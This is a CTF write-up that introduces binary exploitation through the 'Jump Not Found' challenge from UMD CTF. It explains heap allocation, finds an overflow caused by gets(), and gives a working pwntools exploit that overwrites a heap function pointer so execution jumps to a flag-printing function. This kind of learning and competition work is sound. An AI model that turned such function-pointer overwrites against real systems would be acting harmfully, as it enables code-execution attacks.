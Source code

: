 # Detailed Writeups: Binary Exploitation #

To make sure that i learned something well , i always want to write an article about that topic and it'll be an opportunity to do more researchs about it.
The last two days our team Fword participated in two CTFs (UMD CTF and WPICTF) and we were among the top 20 teams in both CTFs so GJ guys <3 anyways that's why i decided to choose the best pwn tasks and write these detailed writeups about them to be a great practical introduction for people who want to dive into binary exploitation .

**Note:** This article assumes that you have basic knowledge of assembly and C language

## Summary ##

1- **Jump Not Found** From UMD CTF : heap based overflow

2- **Dorsia1** From WPI CTF: Buffer Overflow

3- **Dorsia3** From WPI CTF: Format string Vulnerability

## Jump Not Found 400pts (25 solves) ##

![TASK](https://imgur.com/nerLXcA.png)

**Note:** You can Download the binary [HERE](https://github.com/kahla-sec/CTF-Writeups/blob/master/UMDCTF%202020/Jump%20Not%20Found/JNF), give it a try alone before reading the writeup that's the best way to LEARN .

### TL;DR ###

- Exploit a Heap based overflow to overwrite a function address with the Win function address

- Bypass a little problem of the presence of "0x0a"("\n") in the Win function address

### Introduction ###

Before diving into the exploitation part , let's talk about the heap section ,you have probably heard or used **malloc** or **calloc** functions in C ,
these functions are used to allocate memory on the heap,it is a region of your computer's memory that is not managed automatically for you and used for dynamic memory allocation, unlike the stack which we dont have full control over it.

![SECTIONS](https://imgur.com/aVPbDZM.png)

The allocation algorithm in an abstract way is quite simple , we won't dive into too much details , when for example we want to allocate a chunk of 16 bytes using malloc, it's reserved in the heap and malloc returns the address of the beginning of the chung where we can store data.

To know where the next free chunk starts before each allocated chunk its size is allocated so the address of the next free chunk will be :

> Address of the beginning of chunk1 + Its size 

This was in a really abstract way , you can do more research alone if you are interested , there is a lot of ressources in the internet :D

![Allocation](https://imgur.com/7ewvjK7.png)

### Exploitation ###

Let the fun begin now :D after downloading the binary let's do some basic reverse engineering and read carefully its code , i used ghidra for that purpose , you can download it from its official website.

![CODE](https://imgur.com/Ra3YFyG.png)

Observing the main function , we can notice that it's allocation two chunks , the first one its size is 0x42 (66 bytes) where our input will be stored and a second chunk which holds an array of function pointers , and based on our input (1 or 2 or 3) the program will call the appropriate function from the heap .

```C
  local_20 = (char *)malloc(0x42);
  local_18 = (code **)malloc(0x18);
  *local_18 = jumpToHoth;
  local_18[1] = jumpToCoruscant;
  local_18[2] = jumpToEndor;
```
Of course as the most vigilant readers noticed , it's using the dangerous function **gets** so we have the possibility to overflow stuffs :D Now here is our plan:

We will abuse the gets function and overwrite the jumpToHoth address with **jumpToNaboo** function which will prints the flag for us
Before that we need to figure out the offset so let's open the binary in gdb, set a breakpoint after gets and enter a simple pattern

![GDB](https://imgur.com/Xpc9YFp.png)

After that let's visualize the interesting part of the heap 

![HEAP](https://imgur.com/qb2XMHG.png)

As you can see the "AAAAAAAABBBBBBBB" that we have entered followed by the array of function pointers , so the offset is obvious now which is 80, let's begin writing our exploit :

```python

from pwn import *
p=process("./JNF")
#p=remote("192.241.138.174",9996)
p.recvuntil("CONSOLE>")
WIN=p64(0x000000000040070e)
OFFSET="1"+"A"*79
payload=OFFSET
payload+=WIN
p.sendline(payload)
log.info("Found Flag ! ")
p.interactive()

```

The reason why i wrote **OFFSET="1"+"A"*79** is that if you have read the code carefully we will notice that the choice of the function that will be executed is loaded from the beginning of the chunk (which is logic) so i wanted to do it in one shot.

```C
        gets(local_20);
        lVar2 = strtol(local_20,&local_28,10);
        *(short *)(local_20 + 0x40) = (short)lVar2;
        sVar1 = *(short *)(local_20 + 0x40);
        if (sVar1 != 2) break;
        puts("Checking navigation...");
        (*local_18[1])();
      }
      if (2 < sVar1) break;
      if (sVar1 == 1) { .....
```
**Why 0x000000000040070e not the real address 0x000000000040070a**

![FUNC](https://imgur.com/LcvZ0yt.png)

As we know gets function stops when it encounters "\n" (0x0a) so entering the real address of the win function will terminate our input and thus we will never be able to write the address where we want :(
Fortunately observing the assembly code of **jumpToNaboo** function we will see that we can start from the address that holds the part we want , which is printing the flag :

![ASSEMBLY](https://imgur.com/YEv55cw.png)

And Finally running the exploit will bring the flag for us :D

![FLAG](https://imgur.com/Hzqpy0X.png)
